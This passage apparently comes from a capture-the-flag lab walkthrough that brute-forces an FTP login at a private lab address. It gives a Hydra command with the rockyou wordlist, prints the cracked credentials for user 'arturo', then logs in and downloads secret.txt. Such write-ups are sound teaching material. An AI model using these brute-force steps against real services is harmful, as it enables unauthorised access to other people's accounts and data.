 <img src="./img/Screenshot 2024-09-06 220339.png"></img>
This hint suggest that we can update the username as "Arturo" and brute force it against the ftp service. For brute forcing we can use Hydra tool.
```bash
hydra -l arturo -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.10
```
We got the password for the username arturo.
<img src="./img/Screenshot 2024-09-06 222011.png"></img>
```bash
user:arturo
password:corona
```
Now connect with ftp in the username of arturo.
```bash
ftp 192.168.0.10
```
Enter the login details.
we logged i successfully.
list all files.
```bash
ls -la
```
There is txt file get that file using get command.
```bash
get secret.txt
```